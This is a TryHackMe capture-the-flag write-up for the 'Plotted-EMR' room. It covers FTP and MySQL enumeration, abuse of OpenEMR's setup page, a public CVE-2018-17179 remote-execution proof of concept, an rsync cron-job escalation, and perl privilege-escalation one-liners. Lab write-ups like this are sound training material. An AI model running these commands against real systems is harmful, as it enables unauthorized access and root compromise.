# Plotted-EMR — TryHackMe Writeup

**Room Name:** Plotted-EMR
**Room Description:** Everything here is plotted!
**Room Difficulty:** Hard

## Recon

### Nmap Scan

```bash
╭─░▒▓    ~/tryhackme/Plotted_EMR ▓▒░························································································································░▒▓ ✔  at 04:04:23 PM  ▓▒░─╮
╰─ sudo nmap -A -O -sC -sV  10.112.140.193 > nmap.scan                                                                                                                                     ─╯
[sudo] password for ezlx: 

╭─░▒▓    ~/tryhackme/Plotted_EMR ▓▒░···········································································································░▒▓ ✔  took 31s   at 04:05:20 PM  ▓▒░─╮
╰─ cat nmap.scan                                                                                                                                                                           ─╯
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-06 16:04 +0300
Nmap scan report for 10.112.140.193
Host is up (0.074s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.135.22
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:63:ae:b3:17:f0:62:09:8d:96:c8:e0:7a:34:ef:5d (RSA)
|   256 d7:4a:34:0a:bc:e4:ce:ca:6f:d2:a8:26:f7:02:2e:4b (ECDSA)
|_  256 10:16:63:fb:c4:b2:8b:41:74:7b:df:bd:2d:fe:32:57 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
5900/tcp open  mysql   MariaDB 5.5.5-10.3.31
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.31-MariaDB-0+deb10u1
|   Thread ID: 41
|   Capabilities flags: 63486
|   Some Capabilities: InteractiveClient, Speaks41ProtocolOld, Support41Auth, DontAllowDatabaseTableColumn, FoundRows, SupportsTransactions, ConnectWithDatabase, SupportsCompression, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, LongColumnFlag, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: bRT28es3A-\k$lv/%id9
|_  Auth Plugin Name: mysql_native_password
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=11/6%OT=21%CT=1%CU=43476%PV=Y%DS=3%DC=T%G=Y%TM=6AEDD09
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=101%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=103%GCD=1%ISR=108%TI=Z%
OS:CI=Z%II=I%TS=A)SEQ(SP=104%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%G
OS:CD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M4E8ST11NW7%O2=M4E8ST11NW7%O3=M4
OS:E8NNT11NW7%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M4E8ST11)WIN(W1=F4B3%W2=F4B3
OS:%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M4E8NNSNW7%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%
OS:T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 3 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   96.63 ms 192.168.128.1
2   ...
3   96.74 ms 10.112.140.193

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.10 seconds
```

The scan reveals four open ports. The first thing that stands out is that **anonymous FTP login is allowed** on port 21.

Logging in anonymously on FTP turns up the following:



Running `ls -la` shows three directories. One of them, `.-`, looks unusual. Navigating into it with `cd` reveals another oddly named directory, `...`, which contains a file called `you_are_determined.txt`:



Inside is a YouTube link and a hint. The video itself turns out to be a troll, but the hint is worth holding onto for later.

## Enumeration

With ports 80 and 5900 still unexplored, I started with the web server.



Just the default Apache page — time for directory enumeration.



Of the three directories found, none were useful; the `admin` directory only repeated the hint already found on FTP.

I was also able to log into the MySQL server as `admin` with no password, but didn't find anything of value there either.



After spending a while stuck, I ran another port scan and found a second HTTP service on port 8890.



Another default landing page, so I ran directory enumeration again.



Two directories stand out: `/portal` and `/80`. The `/80` path just redirects back to the first web app, so `/portal` is the one worth investigating.


Running `feroxbuster` against it turns up a number of interesting pages.



The important one is `admin.php`, found after some digging.



Clicking **Add New Site** leads to `setup.php`, where a new site can be configured.



Since we already have access to the MySQL server on port 5900 as `admin` with no password, the plan is to create a new OpenEMR site pointed at that database using those credentials:

```txt
The MYSQL SERVER Options 
Server Host:{Machine IP}
Server Port:{The MYSQL Port 5900}
Login Name:{Anything you want}
Password:{Anything you want}
Name for Root Account: {The username in the MYSQL that we have access for}

OPENEMR USER:

Initial User:{Anything you want}
Initial User Password:{Anything you want}
```





From there, the new site is reachable at:
`http://10.112.140.193:8890/portal/interface/login/login.php?site=whatever you named your new site`



## Initial Access

While researching OpenEMR exploits, I found this GitHub repo: `https://github.com/CyberQuestor-infosec/CVE-2018-17179-OpenEMR`, which allows remote command execution.



One line in the PoC needed to be adjusted to match our site name:

```python
r = s.post(args.host + "/interface/main/main_screen.php?auth=login&site=(newone2) < -----------change this", data=login)
```





With that, we land a shell on the machine as `www-data`.

## Privilege Escalation

Next step is escalating privileges. After some digging, I found a path to the `plot_admin` account via a cron job.



A scheduled task runs every minute and uses `rsync` to back up everything in the `config` directory — which is exploitable. Normally the backup command looks like this:

```bash
rsync -t * plot_admin@127.0.0.01:~/backup
```

But `rsync` can be abused to execute a script instead, by passing the `-e` flag:

```bash
rsync -t -e sh shell.sh plot_admin@127.0.0.01:~/backup
```



For root, running `linpeas` revealed a `perl` capability, which GTFOBins confirms is exploitable:

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh"'
```

or, alternatively:

```bash
/usr/bin/perl -e 'chmod 7777, "/bin/bash"'
```





And that's root — flag captured.
